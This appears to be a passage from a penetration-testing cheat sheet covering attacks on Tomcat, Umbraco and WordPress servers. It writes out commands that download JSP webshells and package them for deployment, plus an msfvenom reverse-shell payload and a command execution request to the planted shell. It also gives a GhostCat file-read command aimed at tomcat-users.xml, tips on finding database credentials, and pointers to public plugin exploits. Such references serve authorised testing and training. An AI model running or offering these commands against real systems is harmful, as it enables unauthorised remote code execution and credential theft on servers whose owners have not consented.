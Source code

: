     - Download from `jsp`

      ```bash
      wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp; zip -r backup.war cmd.jsp
      ```

    - Very Light `jsp` shell and stealty

      ```bash
      wget https://raw.githubusercontent.com/SecurityRiskAdvisors/cmd.jsp/refs/heads/master/cmd.jsp; zip -r backup.war cmd.jsp
      ```

      Change Uploaded Casing → `FileOutputStream(f);stream.write(m);o="uPlOaDeD:`

    - Metasploit:

      ```bash
      msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > backup.war
      ```

  - Browse & Upload → Deploy → Request `[URL]/backup/cmd.jsp?p=[CMD]`

- **GhostCat** Unauthenticated LFI

  - [tomcat-ajp.lfi.py](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

  - ```bash
    python2 tomcat-ajp.lfi.py [URL] -p [PORT] -f conf/tomcat-users.xml
    ```

  - Versions < `9.0.31`, `8.5.51`, `7.0.100`

### Umbraco

#### Credential Hunting

##### Where to Find the Database

- **`web.config`** or **`appsettings.json`** (in newer versions) contains the database connection string.
- Look for a connection string named **`umbracoDbDSN`** or similar.
    
##### Backup Files

- If you have a **`/data/`** or **`/App_Data/`** folder, check for:
    - **`Umbraco.sdf`** (SQL CE database, older versions)
	    - `strings Umbraco.sdf | head`
    - **`.mdf` or `.ldf`** (SQL Server files)
    - **`umbraco.config`** (but credentials are not stored here)

### Wordpress

##### Standard folders

- wp-admin
- wp-login.php
  - Confirm valid users
- wp-content
  - plugins
    - To get version: go to the `readme.txt`
    - Exploit research:
      - `mail-masta`: [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and [Local File Inclusion](https://www.exploit-db.com/exploits/50226)
  - themes
